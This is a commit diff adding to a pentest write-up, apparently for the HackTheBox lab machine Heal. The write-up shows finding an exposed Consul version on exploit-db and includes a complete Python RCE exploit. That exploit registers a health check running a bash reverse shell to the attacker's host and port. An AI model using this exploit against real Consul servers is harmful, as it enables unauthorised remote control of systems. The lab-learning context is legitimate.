

Before and after one commit to Shad0w-B0T/angriff-und-verteidigung, a Markdown page: Pentest-Report-Heal.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; pictures changed too: img/consul-exploit-db.png (added); blank space fills up the shorter version.

Commit message:
todo: continue with root clean up

`````diff
--- a/Pentest-Report-Heal.md
+++ b/Pentest-Report-Heal.md
@@ -1720,3 +1738,41 @@ Grab the user flag and enter it in HTB.
+![consul interface](img/consul-webapp-version.png)
+
+Since the exact version number was openly displayed I went to [exploit db](https://www.exploit-db.com/) to search for
+available exploits.
+
+![consul exploit db](img/consul-exploit-db.png)
+
+I was able to find a [RCE](https://www.exploit-db.com/exploits/51117).
+
+
+------------------------ TODO: CONTINUE HERE ------------------------
+
+```
+# Exploit Title: Hashicorp Consul v1.0 - Remote Command Execution (RCE)
+# Date: 26/10/2022
+# Exploit Author: GatoGamer1155, 0bfxgh0st
+# Vendor Homepage: https://www.consul.io/
+# Description: Exploit for gain reverse shell on Remote Command Execution via API
+# References: https://www.consul.io/api/agent/service.html
+# Tested on: Ubuntu Server
+# Software Link: https://github.com/hashicorp/consul
+
+import requests, sys
+
+if len(sys.argv) < 6:
+    print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport> <acl_token>\n")
+    exit(1)
+
+target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
+headers = {"X-Consul-Token": f"{sys.argv[5]}"}
+json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}
+
+try:
+    requests.put(target, headers=headers, json=json)
+    print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
+except:
+    print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
+```
 
 
 \newpage
@@ -1731,6 +1787,7 @@ Grab the user flag and enter it in HTB.
 - LFI
 - Plugin
 - Consul healthcheck/agent(acl)
+- Versionsnummern immer verstecken
 
 ````
 Achten Sie auf Inhalts- und Literaturverzeichnis sowie eine umfassende Reflexion der
`````
Also changed, not shown: other parts of Pentest-Report-Heal.md (+18 -0 lines), img/consul-webapp-version.png (renamed from screenshots/consul-webapp-version.png), img/ssh-local-port-forwarding.png (renamed from screenshots/ssh-local-port-forwarding.png), 1 other file.
